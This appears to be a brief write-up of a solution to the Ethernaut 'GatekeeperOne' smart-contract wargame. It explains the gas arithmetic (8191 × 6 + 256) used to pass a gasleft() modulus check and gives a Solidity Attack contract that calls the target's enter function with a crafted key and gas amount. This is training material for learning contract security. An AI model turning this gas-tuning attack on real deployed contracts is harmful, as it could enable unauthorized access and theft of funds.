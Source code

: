 ![](gasleftstack.png)
![](gasleft.png)
## Description
Counted gasleft in debugger at the beginning of the call - gasleft during the gasleft() push to stack on line require(gasleft() % 8191 == 0); = 256
```
1.(bool succsess, ) = address(gatekeeperOne).call{gas:gasvalue}((abi.encodeWithSignature("enter(bytes8)", _gateKey)));
```
8191 * 6 = 49146 + 256

![](call.png)
with _gateKey type casting
```
contract Attack{
    GatekeeperOne public gatekeeperOne;

    constructor(address _gatekeeperOne){
        gatekeeperOne = GatekeeperOne(_gatekeeperOne);
    }

    function attack(bytes8 _gateKey,uint gasvalue) public returns(bool) {
        (bool succsess, ) = address(gatekeeperOne).call{gas:gasvalue}((abi.encodeWithSignature("enter(bytes8)", _gateKey)));
        return succsess;
    }
}
```
